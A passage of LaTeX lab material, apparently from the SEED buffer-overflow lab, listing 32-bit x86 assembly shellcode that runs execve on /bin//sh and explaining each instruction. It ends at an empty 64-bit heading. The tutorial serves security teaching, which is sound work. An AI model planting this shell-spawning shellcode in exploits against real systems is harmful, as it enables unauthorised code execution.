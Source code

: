 \subsection{Shellcode de 32-bits} 


\begin{lstlisting}[language={[x86masm]Assembler}] 
; Store the command on stack
xor  eax, eax
push eax          
push "//sh"
push "/bin"
mov  ebx, esp     ; ebx --> "/bin//sh": execve()'s 1st argument

; Construct the argument array argv[]
push eax          ; argv[1] = 0
push ebx          ; argv[0] --> "/bin//sh"
mov  ecx, esp     ; ecx --> argv[]: execve()'s 2nd argument

; For environment variable 
xor  edx, edx     ; edx = 0: execve()'s 3rd argument

; Invoke execve()
xor  eax, eax     ; 
mov  al,  0x0b    ; execve()'s system call number
int  0x80
\end{lstlisting}


The shellcode above basically invokes the \texttt{execve()} system call 
to execute \texttt{/bin/sh}. In a separate SEED lab, the Shellcode lab, 
we guide students to write 
shellcode from scratch. Here we only give a very brief explanation. 

\begin{itemize}
\item The third instruction pushes \texttt{"//sh"}, rather than \texttt{"/sh"} into the 
stack. This is because we need a 32-bit number here, and \texttt{"/sh"} 
has only 24 bits. Fortunately, \texttt{"//"} is equivalent to \texttt{"/"}, so we can get 
away with a double slash symbol. 

\item We need to pass three arguments to {\tt execve()} via 
the \texttt{ebx}, \texttt{ecx} and \texttt{edx} registers,    
respectively. The majority of the shellcode basically constructs
the content for these three arguments. 

\item The system call \texttt{execve()} is called when we set \texttt{al} to
\texttt{0x0b}, and execute \texttt{"int 0x80"}.
\end{itemize}
 


\subsection{Shellcodede 64-bits} 

